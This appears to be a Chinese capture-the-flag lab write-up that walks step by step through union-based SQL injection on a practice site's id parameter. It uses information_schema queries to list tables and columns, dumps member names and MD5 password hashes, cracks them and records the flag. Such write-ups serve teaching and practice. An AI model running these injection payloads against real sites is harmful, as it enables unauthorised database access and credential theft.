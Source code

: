 #### SQL 手工注入

1. 判断是否存注入点

   http://124.70.22.208:43505/new_list.php?id=-1

   错误回显，存在注入
2. order by 判断列的数量，发现为四字段

   http://124.70.22.208:43505/new_list.php?id=-1 order by 1,2 ,3,4
3. http://124.70.22.208:43505/new_list.php?id=-1 union select 1,2,3,4

   2位置的内容回显在标题，3位置的内容回显在文章中
4. 查询当前使用的数据库，将回显点任意一个的位置改成database()，发现当前数据库是mozhe_Discuz_StormGroup
5. 通过查询数据库版本，为高版本数据库，有information_schema库中有COLUMNS储存所有数据库中的列名，有TABLES储存所有数据库中的表名
6. http://124.70.22.208:43505/new_list.php?id=-1 union select 1,group_concat(TABLE_NAME),3,4 from information_schema.TABLES where TABLE_SCHEMA='mozhe_Discuz_StormGroup'

   查询mozhe_Discuz_StormGroup数据库下的所有表名：

   1. TABLES_SCHEMA列名是该表所属的数据库
   2. group_concat(列名)会将查到的该列名集合成一个字符串输出，查询所有的表名

   结果为：**StormGroup_member,notice**

   猜测notice就是一开始页面正常显示的文字，查询StormGroup_member中的内容即可
7. 查询StormGroup_member下的列名：

   http://124.70.22.208:43505/new_list.php?id=-1 union select 1,group_concat(COLUMN_NAME),3,4 from information_schema.COLUMNS where TABLE_NAME='StormGroup_member'

   结果为：**id,name,password,status**
8. 查询StormGroup_member下的name和password内容：

   http://124.70.22.208:43505/new_list.php?id=-1 union select 1,group_concat(name),group_concat(password),4 from mozhe_Discuz_StormGroup.StormGroup_member

   结果为：mozhe,mozhe

   356f589a7df439f6f744ff19bb8092c0,318f679292e0d21471fe4b822e9cf855
9. 通过MD5解密，得到两个密码依次登录，第一个无效第二个成功登录
10. key：mozhea582d7131c4a0016cb331833a8b
